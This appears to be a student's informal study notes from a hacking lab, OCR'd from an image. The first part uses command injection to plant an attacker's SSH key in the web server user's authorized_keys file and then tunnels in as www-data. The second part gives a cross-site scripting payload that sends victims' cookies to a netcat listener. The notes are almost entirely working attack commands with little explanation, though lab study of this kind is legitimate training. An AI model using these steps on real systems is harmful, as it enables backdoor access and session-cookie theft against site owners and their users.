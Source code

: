 Studying and shit for keygen
; mkdir /var/www/.ssh
; ls lisa /var/www
(in your terminal on linux) ssh-keygen -t rsa (this makes your key)
(terminal) cat ~/.ssh/id_rsa.pub
; echo "THE ENTIRE KEY" >> /var/www/.ssh/authorized_keys (including the first part, and the student@linops)
; cat /var/www/.ssh/authorized_keys
ssh -S /tmp/DEV DEV -O forward -L2222:10.208.50.42:22 SOCKET2
ssh www-data@localhost -p2222
(this may give an error, run the ssh-keygen command it shows)

################################
Cross-Site Scripting:
################################
nc -l 127.0.0.1 42070
<script>document.location="http://127.0.0.1:42070/?username=" + document.cookie;</script>
